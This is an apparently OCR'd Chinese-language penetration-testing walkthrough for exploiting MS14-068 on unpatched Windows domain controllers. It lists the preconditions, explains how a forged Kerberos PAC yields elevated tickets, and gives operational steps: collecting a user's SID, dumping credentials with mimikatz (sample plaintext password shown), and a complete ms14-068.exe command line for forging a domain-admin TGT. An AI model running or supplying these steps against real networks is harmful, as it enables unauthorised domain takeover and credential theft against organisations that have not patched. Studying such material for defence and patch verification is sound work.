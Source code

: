 利用条件：

-   域控没有打`MS14-068`的补丁 (KB3011780)
-   `拿下一台加入域的计算机`
-   有这台域内计算机的域用户密码和`Sid`

`MS14-068`是密钥分发中心（KDC）服务中的 Windows 漏洞。

它允许经过身份验证的用户在其 Kerberos 票证（TGT）中插入任意 PAC。该漏洞位于 kdcsvc.dll 域控制器的密钥分发中心 (KDC) 中。用户可以通过呈现具有改变的 PAC 的 Kerberos TGT 来获得票证。

利用方法：

1.  漏洞 `MS14068` (web admin 权限)  
    获取当前用户的 SID 值，并上传 MS14-068 漏洞利用文件，然后执行生成攻击域控主机的`TGT`凭据

```bash
# 如果当前用户为域用户，可以直接用 `whoami /user` 获取sid
shell whoami/user
```

2.  运行 `mimikatz` 抓取密码和 SID

```bash
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```

3.  生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```bash
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域控ip
```

> 使用刚刚抓到的密码组合命令

```bash
# 组合指令
shell C:\Users\test1\Desktop\ms14-068.exe -u  test1@test.com  -p Abcd1234!@# -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```
